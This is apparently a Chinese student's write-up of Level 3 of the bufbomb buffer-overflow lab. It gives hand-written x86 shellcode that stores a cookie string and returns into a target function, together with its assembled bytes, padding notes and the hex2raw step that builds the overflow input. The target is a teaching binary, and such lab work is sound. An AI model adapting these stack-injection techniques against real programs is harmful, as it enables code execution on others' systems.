





# bufbomb Level3 补充



和Level2一样，要通过缓冲区溢出调用一个函数，不同的是这里要传入一个字符串地址

通过`gdb`观察`eval2equal`函数发现，它的功能是将十六进制的cookie转化为字符串并和str进行比较



> 这里0x556832a2处存放的是cookie转换后的字符串
>
> `$ebp+0x8`是存放str的地址

因此首先要像Level2一样，编写.s文件

```assembly
movl	$0x804d208,%ecx  //这里直接用的global_value的地址
movl	$0x38423236,(%ecx)
movl	$0x41363831,0x4(%ecx)//将cookie“62B8186A”传入
push	%ecx			//将str首地址push入栈中
subl 	$0x4,%esp		
movl 	$0x0804953d,%eax//将rumble的地址0x0804950d push入栈
subl	$0x30,%eax		
push	%eax
ret
```

> 因为我的rumble地址里有`0d`会导致`getbuf`提前结束，因此这里采用将`0x0804953d-0x30`的方式push入栈
>
> 如果地址中没有这类特殊字节，则可以直接push

接着在`Terminal`中输入

```shell
as rumble.s -o rumble.o
objdump -d rumble.o > rumble-raw.txt
```

得到汇编指令对应的机器码

```assembly

rumble.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b9 08 d2 04 08       	mov    $0x804d208,%ecx
   5:	c7 01 36 32 42 38    	movl   $0x38423236,(%ecx)
   b:	c7 41 04 31 38 36 41 	movl   $0x41363831,0x4(%ecx)
  12:	51                   	push   %ecx
  13:	83 ec 04             	sub    $0x4,%esp
  16:	b8 3d 95 04 08       	mov    $0x804953d,%eax
  1b:	83 e8 30             	sub    $0x30,%eax
  1e:	50                   	push   %eax
  1f:	c3                   	ret    
```

接着在`Terminal`中输入`vim rumble.txt`

然后将这段机器码输入进去



反编译出来得到的机器指令字节，而在getbuf这里可以看到，距离要覆盖的ebp返回地址一共有64字节，因此还需要32个字节进行填充（这里用33做填充纯粹是打起来方便，没有其他含义）



同Level2一样，最后再加上%ebp的地址即可

保存rumble.txt后，输入

```shell
./hex2raw < rumble.txt > rumble-raw.txt
```

生成需要的输入字符串文件

然后运行bufbomb查看结果：



